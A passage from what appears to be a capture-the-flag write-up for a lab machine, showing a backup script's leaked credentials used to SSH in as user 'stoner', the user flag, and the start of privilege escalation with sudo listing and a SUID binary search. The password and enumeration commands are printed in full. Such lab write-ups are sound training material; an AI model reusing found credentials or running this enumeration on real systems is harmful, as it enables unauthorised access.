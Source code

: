 ```shell-session
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```

The `backup.sh` script seems to take some backups (as the name suggests) and store them in `/usr/local/backup`
> Where was the other users pass stored(no extension, just the name)?
> 
> Answer: `backup`

The script also has the credentials for the user: `stoner`. Let's use them to log in as `stoner`:
```shell-session
$ ssh stoner@TARGET_IP -p 55007 
stoner@TARGET_IP's password: superduperp@$$no1knows

stoner@Vulnerable:~$ ls -la
total 20
drwxr-x--- 4 stoner stoner 4096 Feb 26 12:55 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwx------ 2 stoner stoner 4096 Feb 26 12:55 .cache
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret 
You made it till here, well done.
```

The contents of this file are supposed to be the user flag :)
> user.txt
> 
> Answer: `You made it till here, well done.`

Now... we move onto some privesc.

## Privilege Escalation

```shell-session
stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa

stoner@Vulnerable:~$ uname -a
Linux Vulnerable 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:01:15 UTC 2019 i686 i686 i686 GNU/Linux

stoner@Vulnerable:~$ find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
```